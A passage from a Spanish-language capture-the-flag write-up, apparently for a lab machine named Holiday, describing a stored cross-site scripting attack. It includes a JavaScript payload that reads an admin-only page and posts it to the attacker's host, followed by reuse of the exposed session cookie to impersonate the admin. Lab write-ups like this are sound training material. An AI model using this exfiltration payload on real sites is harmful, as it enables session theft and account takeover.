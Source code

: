 Lo añadimos y enviamos:
![sfccquery](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/cd43ba2d17b810abfd8473e194c056226851d4ae/_includes/CTFIMG/Holiday/sfccquery.png)

Y nos ponemos en escucha en un servidor con python3 para ver si se efectúa la petición:     
![nc80-2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/cd43ba2d17b810abfd8473e194c056226851d4ae/_includes/CTFIMG/Holiday/nc80-2.png)

Y vemos que efectivamente la petición llega.
### → Fichero malicioso
El objetivo ahora es almacenar un fichero malicioso con el objetivo de que se solicite como recurso por el usuario administrador con el fin de observar el código fuente de este con el objetivo de buscar algún parámetro distinto con el cual poder robar la cookie:    
```jsx
var req1 = new XMLHttpRequest();
req1.open('GET', 'http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65', false);
req1.send();

var response = req1.responseText;

var req2 = new XMLHttpRequest();
req2.open('POST', 'http://10.10.14.3:1337/evil', true);
req2.setRequestHeader('Content-Type', 'text/plain');
req2.send(response);
```
Al almacenar el script en un servidor HTTP con Python3 y ponernos en escucha en este caso en el puerto 1337 con netcat recibimos el código fuente de la web en este caso la que ve el usuario administrador:    
![cookiehs](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/cd43ba2d17b810abfd8473e194c056226851d4ae/_includes/CTFIMG/Holiday/coohiehs.png)

Podemos notar como se expone un campo oculto “cookie” con el valor de **`connect.sid=s%3A1bee6850-7eba-11ee-97fe-c3fb22230dd2.VBSZXnrWknhgjq%2FAelc8T45pbwNd8%2FI%2B54YiIB%2BeIiA`**.

Reemplazamos este valor en nuestro navegador y notamos que al actualizar la página  *impersonamos* la cuenta del usuario Admin:    